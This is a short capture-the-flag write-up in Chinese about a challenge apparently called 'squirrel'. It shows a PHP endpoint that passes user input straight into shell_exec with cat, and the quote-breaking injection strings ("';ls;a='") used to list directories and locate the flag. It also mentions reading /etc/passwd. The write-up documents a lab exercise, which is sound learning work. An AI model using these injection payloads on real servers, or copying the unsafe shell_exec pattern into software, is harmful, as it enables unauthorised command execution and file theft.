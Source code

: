 ![squirrel](pic/squirrel.png)

直接看原始碼，他是透過`api.php`去讀主機上的`/etc/passwd`，看來可以讀所有檔案！？直接叫他讀`api.php`：

```
/api.php?get=api.php

{"output":"<?php\n\nheader('Content-Type: application\/json');\n\nif ($file = @$_GET['get']) {\n    $output = shell_exec(\"cat '$file'\");\n    \n    if ($output !== null) {\n        echo json_encode([\n            'output' => $output\n        ]);\n    } else {\n        echo json_encode([\n            'error' => 'cannot get file'\n        ]);\n    }\n} else {\n    echo json_encode([\n        'error' => 'empty file path'\n    ]);\n}\n"}
```

看來這個php直接把你給的路徑丟進`shell_exec("cat '$file'")`裡頭，這相當於給了我們shell：

```
/api.php?get=';ls;a='
{"output":"api.php\ncss\nindex.html\njs\n"}
/api.php?get=';cd ..;ls;a='
{"output":"html\n"}
/api.php?get=';cd ../..;ls;a='
{"output":"backups\ncache\nlib\nlocal\nlock\nlog\nmail\nopt\nrun\nspool\ntmp\nwww\n"}
/api.php?get=';cd ../../..;ls;a='
{"output":"5qu1rr3l_15_4_k1nd_0f_b16_r47.txt\nbin\nboot\ndev\netc\nhome\nlib\nlib64\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

